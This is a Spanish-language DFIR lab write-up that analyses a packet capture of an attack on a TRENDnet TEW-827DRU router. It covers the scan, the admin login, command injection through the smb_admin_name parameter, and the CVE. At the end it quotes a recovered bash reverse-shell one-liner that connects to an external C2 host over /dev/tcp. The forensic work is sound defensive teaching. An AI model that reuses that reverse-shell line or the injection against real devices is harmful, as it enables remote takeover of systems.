









**task 1**

¿Desde qué dirección IP lanzó inicialmente su actividad el atacante?

Esto podemos determinarlo de la siguiente forma, aplicando un filtro para detectar posibles escaneos de red y servicios, la herramienta màs conocida es nmap. 



Vemos claramente a la dirección ip `192.168.10.2` comunicarse varias veces con la dirección de gateway.

---
**task 2**

¿Cuál es el nombre del modelo del router comprometido?

Para esto, podemos aplicar un filtro por ip, ahora que ya sabemos que se trata del gateway, `ip.addr == 192.168.10.1`, hacemos click en el primer paquete que nos salga, seguimos el flujo http y podremos ver el nombre: 


Que se trata delrRouter WiFi MU-MIMO AC2600 de TRENDnet, modelo TEW-827DRU. 

---
**task 3** 

¿Cuántos intentos fallidos de inicio de sesión intentó el atacante antes de iniciar sesión con éxito en el router?

Para esto aplicamos el filtro en wireshark `ip.addr == 192.168.10.2 && http.request.method == "POST"`



Es en el tercer paquete donde ya vemos el html y css de la página de administración del router.

---
**task 4**

¿A qué hora UTC logró el atacante entrar en la interfaz de administración web de los routers?

Bie, y sabemos que fue en el tercer intento(tercer paquete) cuando logró acceder, podemos configurar el formato en el que se muestra la hora en wireshark en `View > Time Display Format`, la configuramos en UTC y obtenemos la hora. 




---
**task 5** 

¿Cuántos caracteres tenía la contraseña utilizada para conectarse correctamente?

La respuesta la podemos encontrar en el paquete que hemos estado inspeccionando, el que muestra el acceso del atacante al router: 



Donde: 

1. **`log_pass=`** → Este campo normalmente contiene la contraseña principal. En este caso, está **vacío** (`log_pass=`).
2. **`tmp_log_pass=`** → También está vacío.
3. **`login_name=YWRtaW4%3D`** → Este es el nombre de usuario codificado en Base64:

   * `YWRtaW4=` → Base64 decode → `admin`
4. **`login_n=admin`** → También repite el nombre de usuario, sin codificar.

**No se proporcionó una contraseña**

---
**task 6** 

¿Cuál es la versión actual del firmware instalado en el router comprometido? 

Esto podemos encontrarlo en las pàginas web de `adm_status.asp` o `adm_status.asp.html`. 

Estos nombres corresponden a **páginas web del panel de administración del router**.

* `adm_status.asp` → Es una página ASP (Active Server Page) que muestra **información de estado del router**, incluyendo:

  * Versión del firmware
  * Modelo del router
  * Dirección MAC
  * Tiempo de actividad
  * Etc.

* `adm_status.asp.html` → Es el **archivo HTML reconstruido** a partir de esa página, podemos encontrarlo con **NetworkMiner**.

Filtramos por: `http && frame contains "adm_status.asp"` en wireshark: 



---
**task 7** 

¿Qué parámetro HTTP fue manipulado por el atacante para conseguir la ejecución remota de código en el sistema?

Bien, podemos seguir con el filtro que usamos para encontrar el paquete en el que se muestra que el atacamte logró obtener acceso al panel de administración: `ip.src == 192.168.10.2 && ip.dst == 192.168.10.1 && http.request.method == "POST"`

Si el tercero fue en el que obtuvo acceso, el en cuarto podemos ver lo siguiente: 

 

Una petición bastante extraña ya hacia el servicio SMB, en lo que parece un intento de Command Injection. 

---
**task 8** 

¿Cuál es el número CVE asociado a la vulnerabilidad explotada en este ataque?

Una búsqueda en google y nos encontramos esto: 



Descripción: 

Una vulnerabilidad de inyección de comandos en el router TRENDnet TEW-827DRU con la versión de firmware 2.10B01. Un atacante puede inyectar comandos en los parámetros de solicitud posterior usbapps.config.smb_admin_name en la interfaz apply.cgi, obteniendo así privilegios de root en el shell

---
**task 9** 

¿Cuál fue el primer comando que ejecutó el atacante al explotar la vulnerabilidad?

Seguimos inspeccionando los paquetes devueltos por el filtro con el que hemos estado trabajando: 



Un comando típico para comprobar la ejecución de comandos

---
**task 10** 

¿Qué comando utilizó el actor para iniciar la descarga de un shell inverso en el router desde un host externo a la red?



---
**task 11**

Múltiples intentos de descargar la shell inversa desde una IP externa fallaron. Cuando el actor cometió un error tipográfico en la inyección, ¿qué mensaje de respuesta devolvió el servidor?

El paquete siguiente del paquete de la pregunta anterior, seguimos el `HTTP stream`: 


---
**task 12** 

¿Cuál era la dirección IP y el número de puerto del servidor de comando y control (C2) cuando el shell inverso del actor finalmente se conectó? (IP:Puerto) 

Para esto nos descargamos el fichero `a1l4m.sh` en `File > Export Objects > HTTP` 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR]
└─$ cat a1l4m.sh     
bash -i > /dev/tcp/35.159.25.253/41143 0<&1 2>&1
```


